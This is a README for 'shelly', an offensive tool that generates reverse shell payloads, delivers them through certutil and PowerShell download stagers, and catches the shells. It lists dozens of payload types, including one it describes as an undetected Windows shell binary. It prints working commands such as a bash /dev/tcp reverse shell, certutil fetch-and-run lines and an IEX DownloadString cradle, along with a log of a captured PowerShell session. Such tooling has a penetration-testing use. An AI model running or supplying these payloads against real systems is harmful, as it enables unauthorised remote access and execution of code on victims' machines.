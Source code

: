 # shelly
(mainly reverse shell) payload generator (and shell catcher) written in python2.7 (now ported to v3)

Tool created to automate the creation of payloads to get a reverse shell, making easier to encode it, or serve it using a stager. It's made in a way that is very easy to add more payloads, stagers and connectors.

### Payloads
* reverse_icmp_powershell
* reverse_tcp6_python
* reverse_tcp_bash
* reverse_tcp_bash_setsid (using setsid)
* reverse_tcp_netcatbsd (no -e option)
* reverse_tcp_netcatbsd_noamp (no -e option, not using &)
* reverse_tcp_openssl (encrypts connection)
* reverse_tcp_openssl_noamp (encrypts connection, not using &)
* reverse_tcp_perl
* reverse_tcp_perl_noamp (not using &)
* reverse_tcp_php
* reverse_tcp_phpmonkey (oneliner based on pentest monkeys php rev shell)
* reverse_tcp_powercat (powershell, stager required)
* reverse_tcp_powershell
* reverse_tcp_python
* reverse_tcp_python_pty (prepared to make it interactive: ctr+z, stty raw -echo, fg)
* reverse_tcp_ruby
* reverse_tcp_win_shellexe (generates undetected atm reverse shell binary. Requires special stager)
* reverse_socat_ssl
* reverse_udp_dnscat2 (powershell, stager required)
* reverse_udp_netcatbsd (no -e option)
* reverse_udp_perl
* reverse_udp_python
* reverse_udp_python_pty (prepared to make it interactive: ctr+z, stty raw -echo, fg)

### Stagers
Various techinques used to deliver staged payloads. Only http at the moment:
* certutil & powershell -ep bypass -nop -f
* certutil & type 2 powershell -nop -
* echo IEX Webclient 2 powershell -nop -
* certutil & PARAM1\shell.exe LHOST LPORT
* certutil & PARAM1\file.exe PARAM2

### Connectors
Connectors are the confguration settings that allow to chatch the shell executed for the payload
* reverse_icmp_icmpsh (require have installed icmpsh and setup the connector file with correct path, elevated privs)
* reverse_tcp6_netcat
* reverse_tcp_ncat_ssl
* reverse_tcp_netcat
* reverse_tcp_rlwrap_netcat (NEW! Semi-interactive shell for windos w. histrory)
* reverse_tcp_openssl
* reverse_socat_ssl
* reverse_udp_dnscat2 (require have ruby + server installed and working prior to use it)
* reverse_udp_netcat

## Installation
* ```git clone https://github.com/ompamo/shelly.git```
* configure BASE_PATH on 'shelly' file. Default: /opt/shelly
* ```ln -s /opt/shelly/shelly /usr/local/bin/shelly```
* To enable bash-completion add to your ~/.bashrc file: ```eval "$(register-python-argcomplete shelly)"```
* Install required libs:```pip3 install -r requirements.txt```
* Install netcat, rlwrap

## Extra features
* Auto copy payloads to paperclip (xclip required)
* Generate urlencoded payloads

## Examples
* Generating a reverse tcp bash shell payload
```
root@kali:/opt/shelly# ./shelly rev --payload reverse_tcp_bash --lhost 10.0.2.11 --lport 1234
[*] Payload generated:
/bin/bash -i >& /dev/tcp/10.0.2.11/1234 0>&1
```
* Getting the info for that payload
```
root@kali:/opt/shelly# ./shelly show payload reverse_tcp_bash
[*] bash TCP reverse shell payload
    Info          : bash command to spawn a reverse shell. No special opts required.
    Required Opts : ['LHOST', 'LPORT']
    Connector     : reverse_tcp_netcat
    Payload       : /bin/bash -i >& /dev/tcp/LHOST/LPORT 0>&1
```
* Checking stager info and spawning a PS reverse shell using a web stager on port 8080 and catching the shell
```
root@kali:/opt/shelly# ./shelly rev -p reverse_tcp_powershell -H 10.0.2.11 -P 4444 --stager web_certutil_type2powershell --sport 8080 --param1 c:\\Windows\\Tasks --listen 
[*] Payload generated:
certutil -urlcache -split -f http://10.0.2.11:8080/dJaBEjxo1r c:\Windows\Tasks\dJaBEjxo1r.txt & type c:\Windows\Tasks\dJaBEjxo1r.txt | powershell -nop -
[*] Serving stage at port 8080
10.0.2.4 - - [16/May/2018 14:58:31] "GET /dJaBEjxo1r HTTP/1.1" 200 -
[*] Part 1 of 2 sent
10.0.2.4 - - [16/May/2018 14:58:31] "GET /dJaBEjxo1r HTTP/1.1" 200 -
[*] Part 2 of 2 sent

[*] Reverse TCP Netcat listener - No additional info
Listening on [0.0.0.0] (family 0, port 4444)
Connection from 10.0.2.4 49196 received!

PS C:\> 

```
* Also we can get it urlencoded (to work with ie with curl or other tools)
```
root@kali:/opt/shelly# ./shelly rev -p reverse_tcp_powershell -H 10.0.2.11 -P 4444 --stager web_echo2powershell --urlencode -l
[*] Payload generated:
echo%20IEX%28New-Object%20Net.WebClient%29.DownloadString%28%27http%3A%2F%2F10.0.2.11%3A80%2Fu5KWfOkL6b%27%29%20%7C%20powershell%20-nop%20-
[*] Serving stage at port 80
...
```
## Creating your own...
### Payloads
```
title=bash TCP reverse shell payload
info=bash command to spawn a reverse shell. No special opts required.
required_opts=LHOST;LPORT
connector=reverse_tcp_netcat
payload=/bin/bash -i >& /dev/tcp/LHOST/LPORT 0>&1
```
* Create a similar file, the uppercase keywords will be replaced with the data passed as parameters.
* Available params: LHOST, LPORT, PARAM1, PARAM2
* required contains the required parameters for the payload.
* Use an existent connector.
* If you need to configure a mulltilne payload (used with stagers), use multiline. Next payload and finish with %%payload_end%%

### Connectors
```
title=OpenSSL listener (encrypted)
info=If not working generate/create new cert in aux: openssl req -x509 -newkey rsa:1024 -keyout key.pem -out cert.pem -days 365 -nodes
required_opts=LPORT
app=/usr/bin/openssl
params=s_server;-quiet;-key;/opt/shelly/repo/auxiliary/key.pem;-cert;/opt/shelly/repo/auxiliary/cert.pem;-port;LPORT
pre_exec=
```
* Create a similar file, the uppercase keywords will be replaced with the data passed as parameters.
* Available params: LHOST, LPORT, PARAM1, PARAM2
* required_opts contains the required parameters for the connector.
* app contains connector binary path.
* params passed to the connector splitted by semicolons.
* pre_exec will contain a command executed just before launching the connector.

### Stagers
Only HTTP stagers working  at the  moment.
```
title=echo 2 powershell -nop -
info=Download the payload using powershell code echoed to powershell -nop -
required_opts=LHOST;SPORT
http_requests=1
payload=echo IEX(New-Object Net.WebClient).DownloadString('http://LHOST:SPORT/FILENAME') | powershell -nop -
```
* Create a similar file, the uppercase keywords will be replaced with the data passed as parameters.
* Available params: LHOST, SPORT, PARAM1, PARAM2
* required_opts contains the required parameters for the stager.
* http_resquests usually mus be 1, if not working try 2 or higher value.

### External scripts used on this project as payloads
* [PowerCat.ps1](https://github.com/besimorhino/powercat) from Besimorinho
* [Inovke-PowerShellIcmp.ps1](https://github.com/samratashok/nishang) from Samratashok
* [dnscat2.ps1](https://github.com/lukebaggett/dnscat2-powershell) from Luke Bagget
* [php-reverse-shell](http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz) from PentestMonkey
* [Windows Revshell](https://github.com/infoskirmish/Window-Tools/tree/master/Simple%20Reverse%20Shell) form infoSkirmish

